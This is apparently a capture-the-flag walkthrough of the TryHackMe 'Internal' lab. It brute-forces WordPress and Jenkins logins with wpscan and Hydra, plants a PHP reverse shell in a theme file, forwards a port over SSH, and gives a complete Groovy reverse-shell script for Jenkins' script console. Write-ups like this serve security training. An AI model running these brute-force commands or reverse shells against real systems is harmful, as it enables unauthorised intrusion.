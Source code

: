 ## [Room](https://tryhackme.com/room/internal)

## IP: 10.10.190.194

Add ip to /etc/hosts

`10.10.190.194	internal.thm`

```
ffuf -c -s -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.190.194/FUZZ
```

This will get /blog and /wordpress so we know it is a wordpress website

`http://internal.thm/blog/wp-admin`

The error say this after we try to login as admin:

`Error: The password you entered for the username admin is incorrect` 

If the error message say "password for username **admin** is incorrect", it means that we got the username right and we only need to find the password

Use burpsuite to intercept to get login parameter

`log=admin&pwd=admin&wp-submit=Log+In&redirect_to=http%3A%2F%2Finternal.thm%2Fblog%2Fwp-admin%2F&testcookie=1`

```
wpscan --url http://internal.thm/blog -U admin -P /usr/share/wordlists/rockyou.txt -t 64
```

`[SUCCESS] - admin / my2boys`

Usually to get reverse shell in wordpress, the common thing to do is to manipulate the .php in themes

Edit 404.php in themes with php reverse shell and go to `http://internal.thm/blog/wp-content/themes/twentyseventeen/404.php`

And we get reverse shell as **www-date**

/opt/wp-save.txt

```
Bill,

Aubreanna needed these credentials for something later.  Let her know you have them and where they are.

aubreanna:bubb13guM!@#123
```

ssh in and we get flag 

`THM{REDACTED}`

**jenkins.txt**

```
Internal Jenkins service is running on 172.17.0.2:8080
```

There is a server that run locally

We can ssh again but with local network include

`ssh -L 8080:127.0.0.1:8080 aubreanna@10.10.190.194`

And we see that docker0 ip now

```
System load:  0.0               Processes:              113
  Usage of /:   63.8% of 8.79GB   Users logged in:        1
  Memory usage: 34%               IP address for eth0:    10.10.190.194
  Swap usage:   0%                IP address for docker0: 172.17.0.1
```
go to 127.0.0.1:8080 and we see jenkin login page

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 127.0.0.1 http-post-form "/j_acegi_security_check:j_username=admin&j_password=^PASS^&from=/&Submit=Sign in:Invalid username or password" -s 8080 -I
```

`[8080][http-post-form] host: 127.0.0.1   login: admin   password: spongebob`

After we logged in, we go to Managejenkins->Script console to get reverse shell

```
String host="$MY_IP";
int port=1234;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

And we listen on port 1234 `nc -lnvp 1234`

We get shell as **jenkins**

/opt/note.txt

```
Aubreanna,

Will wanted these credentials secured behind the Jenkins container since we have several layers of defense here.  Use them if you 
need access to the root user account.

root:tr0ub13guM!@#123
```

ssh as root and can cat out root.txt

`THM{REDACTED}`
